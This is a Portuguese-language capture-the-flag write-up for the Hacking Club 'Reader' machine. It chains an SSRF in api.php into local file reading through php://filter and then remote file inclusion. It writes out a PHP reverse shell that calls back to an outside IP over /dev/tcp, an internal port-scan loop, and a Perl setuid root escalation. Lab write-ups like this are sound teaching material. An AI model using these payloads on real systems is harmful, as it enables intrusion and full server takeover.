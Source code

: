 ```yaml
---
title: 'Reader Writeup'
date: '2024-06-29'
tags: ['SSRF','RFI']
draft: false
summary: 'Writeup do CTF Reader da Hacking Club.'
images: ['/static/images/writeup-reader-images/logo-reader.png']
authors: ['default']
---
```

![Logo Reader](/static/images/writeup-reader-images/logo-reader.png)

## **Plataforma**: Hacking Club

### **Dificuldade:** Easy

### **Nome**: Reader

### IP: 172.16.4.104

**Gabriel Silva | 29 de junho, 2024**

---

### **Port Scanning**

```bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 1b:6f:d9:6f:08:c8:eb:59:76:5f:fe:f5:1f:28:b4:d2 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCdE/+UDioqJcBqKEjyENBihhOMB9Ocue8I+pDmGchJZvrGwO2MbIiL6VLH+bqm08nrq+NdjzWM7TewudhK9viM=
|   256 81:51:ba:61:11:db:07:50:51:66:92:d8:e1:ff:68:36 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKH7CspTNqFcDLRTPhHJYggspYSAuzmq+DXCv2U/Q2Jq
80/tcp open  http    syn-ack Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Emergency Maintenance
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Essa maquina tem somente as portas 22 (SSH) e 80 (HTTP) aberta.

### **Enumeration**

Uma página web simples que aparentemente está em manutenção e somente o serviço de API está funcionando.
![Página de manutenção](/static/images/writeup-reader-images/1.png)

Nada no robots.txt.

Não tem muito o que se fazer , então fiz um fuzzing pra procurar por diretórios antes de ver essa API.

`gobuster dir -u $URL -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-directories.txt -x php,sh,txt,cgi,html,js,css,py`

```bash
Starting gobuster in directory enumeration mode
===============================================================
/api.php              (Status: 200) [Size: 56]
/index.php            (Status: 200) [Size: 17866]
/logfiles             (Status: 301) [Size: 315] [--> <http://172.16.4.104/logfiles/>]

```

Tem um diretório chamado `logfiles` que vai ser útil mais pra frente.

---

Na parte de API diz que só aceita requisições POST.

![API POST](/static/images/writeup-reader-images/2.png)
Peguei a requisição pelo burp pra enviar com POST.
![Burp requisicao](/static/images/writeup-reader-images/3.png)
Diz que esta faltando um parâmetro chamado URL.

Por alguma razão pelo burp não esta funcionando passar o parâmetro , mas via curl deu certo:

![Curl POST](/static/images/writeup-reader-images/4.png)
`curl -X POST <http://172.16.4.104/api.php> -d "url=http://127.0.0.1"`


Ele está salvando a requisição em algum lugar no arquivo .txt (Salvo em /logfiles/ achado via gobuster).
![Curl resposta](/static/images/writeup-reader-images/curl-1.png)Como o parâmetro se chama `url` podemos deduzir que se trata de um SSRF.
Utilizei esse simples port scan pra descobrir quais portas internas o servidor possui.

```bash
for port in 22 21 25 80 8080 3306 5432 8443 445 9000; do echo "Scanning port $port..."; curl -X POST -s -d "url=http://127.0.0.1:$port" "<http://172.16.4.104/api.php>" | cat; done
```

Foi achado 2 portas interessantes com esse portscan a porta 3306 e a 8080:
![Portas interessantes](/static/images/writeup-reader-images/curl-2.png)
Agora é fazer a requisição na porta 8080 com o curl e ver .

`curl -X POST <http://172.16.4.104/api.php> -d "url=http://127.0.0.1:8080/"`

![Curl 8080](/static/images/writeup-reader-images/curl-3.png)A gente pode ir no diretorio `logfiles` pra ver qual foi a resposta do servidor.

![Logfiles resposta](/static/images/writeup-reader-images/logfile-output-1.png)
`curl -X POST <http://172.16.4.104/api.php> -d "url=http://127.0.0.1:8080/read.php"`
![Curl read.php](/static/images/writeup-reader-images/curl-4.png)
Lendo o output , ele diz que falta um parâmetro chamado `file`
![Logfiles output 2](/static/images/writeup-reader-images/logfile-output-2.png)
`curl -X POST <http://172.16.4.104/api.php> -d "url=http://127.0.0.1:8080/read.php?file=/etc/passwd"`
![Curl etc/passwd](/static/images/writeup-reader-images/curl-5.png)
![Logfiles output 3](/static/images/writeup-reader-images/logfile-output-3.png)
Pra entender melhor o que a aplicação está fazendo a gente vai ler o arquivo read.php utilizando o schema `php://`

Lembrando que é necessário converter pra base64 , por que se não a aplicação vai nos retornar uma pagina em branco.

`curl -X POST <http://172.16.4.104/api.php> -d "url=http://127.0.0.1:8080/read.php?file=php://filter/convert.base64-encode/resource=read.php"`
![Curl base64](/static/images/writeup-reader-images/curl-6.png)
![Logfiles output 4](/static/images/writeup-reader-images/logfiles-output-4.png)
![Decode base64](/static/images/writeup-reader-images/decode-base64.png)

`Include $_GET ['file']` indica um RFI (Remote-File Inclusion) que podemos usar pra ganhar acesso ao servidor.

## Foothold

`python3 -m http.server`

```bash
#shell.php
<?php system("/bin/bash -c 'bash -i >& /dev/tcp/10.0.31.150/1337 0>&1'"); ?>
```
![Python server](/static/images/writeup-reader-images/python-m-http-server.png)

Agora é so mandar a requisição pro servidor.
`curl -X POST <http://172.16.4.104/api.php> -d "url=http://127.0.0.1:8080/read.php?file=http://10.0.31.150:80/shell.php"`
![Foothold](/static/images/writeup-reader-images/foothold.png)
## Privilege Escalation

`getcap -r / 2>/dev/null`
![Privesc 1](/static/images/writeup-reader-images/privesc-1.png)
`/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";’`
![Privesc 2](/static/images/writeup-reader-images/privesc-2.png)
## Proof
![Proof](/static/images/writeup-reader-images/proof.png)
